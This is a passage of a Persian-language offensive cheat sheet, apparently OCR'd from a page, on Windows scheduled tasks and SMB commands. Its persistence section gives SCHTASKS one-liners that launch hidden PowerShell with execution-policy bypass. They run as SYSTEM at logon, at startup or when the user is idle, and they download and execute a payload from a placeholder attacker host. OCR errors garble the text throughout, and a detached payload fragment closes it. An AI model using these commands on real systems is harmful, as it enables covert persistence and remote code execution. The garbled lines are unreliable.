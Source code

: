 ## زمان بندی نمودن task

```text
Scheduled tasks binary paths CANNOT contain spaces because everything
after the first space in the path is considered to be a command-line
argument. Enclose the /TR path parameter between backslash (\) AND
quotation marks ("):
... /TR "\"C:\Program Files\file.exe\" -x arg1"
```

### زمان بندی نمودن task \(ST=زمان شروع, SD=تاریخ شروع, ED=تاریخ پایان\) \*نیاز به دسترسی admin

```text
SCHTASKS /CREATE /TN Task Name /SC HOURLY /ST HH:MM /F /RL HIGHEST /SD
MM/DD/YYYY /ED MM/DD/YYYY /tr "C:\my.exe" /RU DOMAIN/user /RP
password
```

### زمان بندی نمودن همیشگی task \[10\]

```text
For 64 bit use:
"C:\Windows\syswow64\WindowsPowerShell\vl.O\powershell.exe"
# (x86) on User Login
SCHTASKS /CREATE /TN Task Name /TR
"C:\Windows\System32\WindowsPowerShell\vl.O\powershell.exe -WindowStyle
hidden -NoLogo -Noninteractive -ep bypass -nap -c 'IEX ((new-object
net.webclient) .downloadstring( ''http:// ip : port I payload'''))'" /SC
onlogon /RU System
# (x86) on System Start
SCHTASKS /CREATE /TN Task Name /TR
"C:\Windows\System32\WindowsPowerShell\vl.O\powershell.exe -WindowStyle
hidden -NoLogo -Noninteractive -ep bypass -nap -c 'IEX ((new-object
net.webclient) .downloadstring("http:// ip : port I payload"))'" /SC
onstart /RU System
# (x86) on User Idle (30 Minutes)
SCHTASKS /CREATE /TN Task Name /TR
"C:\Windows\System32\WindowsPowerShell\vl.O\powershell.exe -WindowStyle
hidden -NoLogo -Noninteractive -ep bjpass -nop -c 'IEX ((new-object
net.webclient) .downloadstring("http:// ip : port I payload"))'" /SC
onidle /i 30
```

## دستورات کار با smb

### ورود با کاربر خاص

```text
smbclient -L 10.10.10.10 -U tlavel
```


[IO.Compression.Compressiont~ode]: :Decompress) I,
[Text.Encoding]: :ASCII)) .ReadToEnd() ;"